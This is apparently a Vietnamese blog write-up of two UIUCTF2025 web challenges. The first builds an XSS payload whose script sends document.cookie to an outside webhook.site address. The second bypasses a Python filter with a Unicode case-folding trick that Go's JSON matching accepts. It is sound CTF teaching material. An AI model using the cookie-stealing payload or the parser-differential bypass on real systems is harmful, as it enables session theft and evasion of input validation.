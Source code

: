 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [WRITEUP,UIUCTF2025]
tags: [XSS, Unicode] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```
{: .nolineno }

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```
{: .nolineno }
đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .prompt-tip }

## II. Shipping Bay

Khi mở trang web ta được một trang web với chức năng tạo và xem đơn hàng

![image.png](/assets/img/posts/UIUCTF2025/image3.png)

Thử tạo đơn hàng và sau khi đơn hàng được tạo thì không hiển thị trên trình duyệt. Quay trở lại burpsuite ta nhận được request và respone như sau:

![image.png](/assets/img/posts/UIUCTF2025/image4.png)

Quay trở lại source code ta nhận thấy có hai điểm đáng chú ý sau. Đoạn code python thì không cho sử key `supply_type` có value là `flag` ⇒ nếu có thì chặn và không gửi đến `processing_service` của Golang

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```
{: .nolineno }

Nhưng Golang lại cần điều kiện đó để trả ra `flag`

```go
func sendShipment(shipment Shipment) string {
  if shipment.SupplyType == "flag" {
    if flag, exists := os.LookupEnv("FLAG"); exists {
      return flag
    }
    return "uiuctf{fake_flag}"
  }
  return "oops we lost the package"
}
```
{: .nolineno }
Vậy để vượt qua thử thách trên? Vấn đề nằm ở **sự khác biệt về chuẩn hóa Unicode của** Python và xử lý Json của Go. Khi unmarshal vào struct, Go nội bộ xây chiến lược tìm field theo **tên JSON**  và cho phép một dạng **so khớp không phân biệt hoa-thường** (casefold). Vậy việc cần làm ở đây là tìm kí tự có casefold để vượt qua rào cản để lấy được flag. Và mình dùng đoạn code sau đây để tìm kí tự đó:

```go
package main

import (
  "fmt"
  "strings"
  "unicode"
)
func main() {
  s := "supply_type"
  runes := []rune(s)
  for pos, target := range runes {
    count := 0
    fmt.Printf("Vị trí %d, ký tự gốc %q (U+%04X)\n", pos, target, target)
    for cand := rune(0); cand <= unicode.MaxRune; cand++ {
      if !unicode.IsPrint(cand) || cand == target {
        continue
      }
      if strings.EqualFold(string(cand), string(target)) {
        fmt.Printf("  -> U+%04X %q\n", cand, cand)
        count++
      }
    }
    fmt.Println("  Total:", count)
  }
}
```
{: .nolineno }

và kết quả trả về chỉ duy nhất kí tự `s` có casefold `ſ` 

```
Vị trí 0, ký tự gốc 's' (U+0073)
  -> U+0053 'S'
  -> U+017F 'ſ'
```

Gửi payload đã chứa casefold để nhận flag `origin=Earth+Station+Beta&destination=Mars+Colony+Alpha&supply_type=hello&ſupply_type=flag&weight=2.4+tons&departure=2000-02-01&arrival=2000-02-02&priority=Medium&vessel=Cargo+Hauler+IX` 

Vậy nó hoạt động như nào?

Khi ta gửi `supply_type=hello&ſupply_type=flag` thì sẽ được xử lý như sau:

- `lower()` không casefold, không normalize do đó phân biệt `supply_type` và `ſupply_type` nên thêm luôn vào dictonary hay key này. và `supply_type=hello` có value ≠ `flag` nên đoạn payload sẽ được gửi tiếp đến Go
- Go khi map JSON key → struct field **so khớp không phân biệt hoa-thường theo Unicode** (case folding), nên coi `ſ` ≡ `s`. Vậy khi Go nhận `supply_type=hello` và sau đó lại nhận được `ſupply_type=flag` thì casefold nó và ghi đè thành `supply_type=flag` và vượt qua được kiểm tra nên trả ra flag.

> **Flag:**
> ```text
> uiuctf{maybe_we_should_check_schemas_8e229f}
> ```
{: .prompt-tip }